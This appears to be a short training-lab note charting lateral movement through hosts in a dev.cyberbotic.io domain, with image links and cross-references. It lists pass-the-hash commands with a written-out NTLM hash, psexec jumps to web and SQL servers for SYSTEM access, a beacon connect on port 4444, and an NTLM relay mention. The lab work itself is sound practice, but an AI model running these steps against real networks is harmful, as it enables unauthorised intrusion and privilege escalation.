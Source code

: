 
WKSTN-2 (bfarmer)
- By Signing in and out of WKSTN-2 due to beacon 

-> WKSTN-2 (System)
- By running `connect localhost 4444` thanks to listener setup previously

--> WEB.dev.cyberbotic.io (System * DEV\jking)
- pth as jking to become part of administrators/rdp group
- `pth DEV\jking 59fc0f884922b4ce376051134c71e22c`
- jump to web-2.dev.cyberbotic.io server using psexec as jking and become system
```jump psexec64 web.dev.cyberbotic.io smb```
![[Pasted image 20230829120627.png]]

---> DC02
`NTLM Relay Attack`
[[13. Lateral Movement]]

![[Pasted image 20230830143728.png]]

--> SQL
From WKSTN2 
- pth as jking to become part of administrators/rdp group
- `pth DEV\jking 59fc0f884922b4ce376051134c71e22c`
- jump to web-2.dev.cyberbotic.io server using psexec as jking and become system
- `jump psexec64 sql-2.dev.cyberbotic.io smb`

![[Pasted image 20230830153559.png]]